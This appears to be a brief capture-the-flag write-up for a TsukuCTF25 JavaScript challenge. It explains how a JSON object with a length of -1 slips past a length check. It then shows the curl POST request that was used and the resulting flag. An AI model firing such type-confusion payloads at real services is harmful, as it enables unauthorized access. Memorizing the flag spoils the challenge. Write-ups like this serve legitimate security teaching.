 ```javascript
function chall(str = "[1, 2, 3]") {
  const sanitized = str.replaceAll(" ", "");
  if (sanitized.length < 10) {
    return `error: no flag for you. sanitized string is ${sanitized}, length is ${sanitized.length.toString()}`;
  }
  const array = JSON.parse(sanitized);
  if (array.length < 0) {
    // hmm...??
    return FLAG;
  }
  return `error: no flag for you. array length is too long -> ${array.length}`;
}
```
The bug here is because array is created from `JSON.parse()`, so we can parse a JSON object with length=-1 to pass the `sanitized.length < 10`  and `array.length < 0` checks.

```
curl http://challs.tsukuctf.org:28888 -X POST -d 'array={"length": -1}'
TsukuCTF25{l4n_l1n_lun_l4n_l0n}
```

Solved by: benkyou